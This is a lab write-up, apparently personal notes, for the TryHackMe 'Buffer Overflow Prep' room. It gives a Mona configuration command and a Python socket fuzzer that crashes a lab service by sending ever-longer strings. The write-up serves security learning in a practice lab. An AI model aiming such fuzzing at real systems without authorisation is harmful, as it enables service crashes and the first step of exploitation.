 ```yaml
---
layout: default
title: Buffer Overflow Prep 2
parent: Buffer Overflow Prep
grand_parent: Try Hack Me
nav_order: 1
published: false
---
```

![Default](https://tryhackme.com/img/banners/default_tryhackme.png)
# Buffer Overflow Prep
I believe Tiberius wrote this one, which is comforting. He has some great Linux and Windows Priv Escalation courses on Udemy. You can find this TryHackMe room [Here](https://tryhackme.com/room/bufferoverflowprep). He also has a great [Buffer Overflow Pen Test Cheat Sheet on Github](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst). 

## Overflow 1
### Controlling EIP
I'll leave out the finer details where possible. I really want to jot down any highlights, scripts, or tips that I think might be beneficial for future Buffer Overflow encounters. Definitely checkout the room (linked above) for full details.

Mona Working Folder
{: .highlight }  

Set a Mona Working Folder after launching Immunity via the following command. This will be helpful later when we start using Mona to identify bad characters.
```
!mona config -set workingfolder c:\mona\%p
```

Python3 Fuzzer
{: .highlight }  
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.180.173"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
```
